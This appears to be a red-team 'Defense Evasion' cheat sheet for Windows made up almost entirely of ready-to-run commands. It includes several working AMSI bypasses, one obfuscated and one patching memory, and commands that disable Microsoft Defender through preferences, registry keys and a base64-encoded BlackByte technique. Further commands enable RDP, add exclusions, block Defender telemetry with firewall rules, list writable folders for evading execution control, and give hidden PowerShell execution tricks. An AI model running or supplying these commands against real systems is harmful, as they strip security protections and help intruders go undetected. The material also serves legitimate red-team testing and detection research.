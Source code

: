 # Defense Evasion

## Firewall Modification

### Allowing RDP

PowerShell

{% code overflow="wrap" %}
```powershell
Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
{% endcode %}

Windows Commands

{% code overflow="wrap" %}
```powershell
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```
{% endcode %}

## AMSI Bypasses

A classic resource: [https://amsi.fail/](https://amsi.fail/)

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
SeT-Item ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( TYpE ) ; ( Get-varIABLE ( ('1Q'+'2U') +'zX' ) -VaL )."AssEmbly"."GETTYPe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."getfiElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sETVaLUE"( ${nULl},${tRuE} );
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
$fzxhw = @" using System; using System.Runtime.InteropServices; public class fzxhw { [DllImport("kernel32")] public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); [DllImport("kernel32")] public static extern IntPtr LoadLibrary(string name); [DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr vilqbn, uint flNewProtect, out uint lpflOldProtect); } "@
Add-Type $fzxhw
$jvdnuxs = [fzxhw]::LoadLibrary("$(('ämsî'+'.dll').NORMALiZE(chAr+ChaR+ChAr+CHar+cHar) -replace ChAr+ChAR+cHAR+ChaR+chAr+CHar)") $ikbtnz = [fzxhw]::GetProcAddress($jvdnuxs, "$(cHAR+Char+chaR+cHAr+ChAr+Char+cHaR+chAR+chAr+cHAr+CHar+cHaR+CHaR+CHar)") $p = 0 [fzxhw]::VirtualProtect($ikbtnz, [uint32]5, 0x40, [ref]$p) $ovsj = "0xB8" $zahw = "0x57" $cfuu = "0x00" $ukxu = "0x07" $salu = "0x80" $yrkl = "0xC3" $xrnun = [Byte[]] ($ovsj,$zahw,$cfuu,$ukxu,+$salu,+$yrkl) [System.Runtime.InteropServices.Marshal]::Copy($xrnun, 0, $ikbtnz, 6)
```
{% endcode %}

## Microsoft Defender for Endpoint

Note: Events are cached on the system, so as soon as traffic is established again, the floodgates will open.

### Getting Current Status

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
```
{% endcode %}

### Adding an Exclusion

{% code overflow="wrap" %}
```powershell
Add-MpPreference -ExclusionPath 'C:\windows\temp'
```
{% endcode %}

### Scanning a File with Defender

{% code overflow="wrap" %}
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -DisableRemediation -File 'C:\stager.exe'
```
{% endcode %}

### Disabling Defender

{% code overflow="wrap" %}
```powershell
taskkill  /F /IM MSASCuiL.exe

Set-MpPreference -DisableIntrusionPreventionSystem $true `
-DisableRealtimeMonitoring $true -DisableScriptScanning $true `
-EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode `
-Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend

REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "HideSCAHealth" /t REG_DWORD /d 0x1 /f
REG ADD "HKCU\Software\Policies\Microsoft\Windows\Explorer" /v "DisableNotificationCenter" /t REG_DWORD /d 0x1 /f
REG DELETE "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityHealth" /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "AllowFastServiceStartup" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "ServiceKeepAlive" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "LocalSettingOverrideSpynetReporting" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 0x2 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration" /v "NotificationSuppress" /t REG_DWORD /d 0x1 /f
```
{% endcode %}

### Disable Defender on Reboot\\

A BlackByte TTP

{% code overflow="wrap" %}
```powershell
powershell -command "$x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VwBpA'+'G4ARA B'+'lAGYA'+'ZQB'+'uAG'+'QA'));Stop-Service -Name $x;Set-Service -StartupType Disabled $x"
```
{% endcode %}

### Reviewing AppLocker Policies

{% code overflow="wrap" %}
```powershell
$a = Get-ApplockerPolicy -effective; $a.rulecollections;
```
{% endcode %}

You can also review the AppLocker policies by enumerating the Registry manually:

{% code overflow="wrap" %}
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
reg query "HKEY_LOCAL_Machine\Software\Policies\Microsoft\Windows\SrpV2" /s
```
{% endcode %}

### Blocking MS Defender Connections

```powershell
New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```

### **Default Writable Folders for Execution Control Bypass**

Try putting your payload in one of the following directories:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
<strong>C:\Windows\Tasks
</strong>C:\windows\tracing 
</code></pre>

## PowerShell Execution

### Nested PowerShell Bypass

{% code overflow="wrap" %}
```powershell
powershell.exe -enc [BASE64THIS(powershell.exe -w hidden -c "iex(...)"]>
```
{% endcode %}

### **32-Bit PowerShell Bypass**

PowerShell disabled for you? Try running the 32-bit copy of it:

{% code overflow="wrap" %}
```sh
C:\windows\syswow64\windowspowershell\v1.0\powershell whoami
```
{% endcode %}

